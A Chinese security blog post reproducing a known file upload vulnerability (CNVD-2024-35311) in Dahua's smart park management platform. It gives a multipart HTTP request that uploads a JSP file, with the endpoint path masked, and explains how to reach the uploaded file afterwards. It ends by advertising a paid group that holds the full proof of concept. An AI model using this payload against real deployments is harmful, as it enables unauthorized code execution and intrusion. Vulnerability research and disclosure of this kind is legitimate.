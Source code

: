 #  【1day】⼤华智慧园区综合管理平台⽂件上传(CNVD2024-35311)   
原创 跟着斯叔唠安全  跟着斯叔唠安全   2025-05-12 23:01  
  
免责声明  
：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
1  
  
Start  
  
系统介绍  
  
大华智慧园区综合管理平台  
旨在通过构建统一的管理和服务平台，整合园区内的人、车、物、事件等多维度数据，实现园区的智能化、精细化管理。该平台主要面向商业园区、产业园区、高校园区等多种场景，提供从安防监控、设备管理到人员管理、访客管理、车辆管理等多方面的综合解决方案  
  
资产测绘  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMzia070HD1CkSMgyP9j5CugFDYTgiabpG9BP8OjR39FgWCufvCxmrniaBzhw/640?wx_fmt=png&from=appmsg "")  
  
  
2  
  
Action  
  
漏洞复现  
  
直接使用payload，向目标接口上传文件  
```
POST /******/******.****** HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/60
5.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 336

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="updateBean.loadCab"; filename="aaa.jsp"
Content-Type: text/plain

<% out.print("xxxx~~~");%>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="updateBean.loadCabFileName"

aaa.jsp
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMziaheNiaeXWzsNYicG9ib5jvuIYrIGNAsRITzsmCqPqCLFnPZVn6D0oS9b9w/640?wx_fmt=png&from=appmsg "")  
  
然后根据代码设定的上传文件名规则拼接成对应的文件名称，访问文件上传后文件存放的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMziaCIMib8aLuOgajhzlre4CUkF5NHD0QDBlDPPkVUXOkh0FuUTLH8znfug/640?wx_fmt=png&from=appmsg "")  
  
  
3  
  
End  
  
🚀 **新圈子上线 | 高质量安全内容持续更新中！**  
  
我最近在纷传上建立了一个全新的安全技术圈子，主要聚焦于 **WEB安全、APP安全、代码审计、漏洞分享**  
 等核心方向。目前圈子刚刚建立，内容还不算多，但会**持续高频更新**  
，只分享真正有价值、有深度的干货文章。  
  
📚 圈子中包含：  
- 高质量原创或精选的安全技术文章  
  
- 公众号历史付费内容免费查看（如：小程序RPC、APP抓包解决方案）  
  
- 一些只在圈子内分享的独家思路和实战经验  
  
文章中涉及的完整POC及代码审计报告已上传至纷传圈子中，需要的师傅可以自取哈  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMziaiaUZ9b3d40xXpSzR5icxvb4K6XCVp60wzvaiayiaqMR15U0wZ9oQmUKHUQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
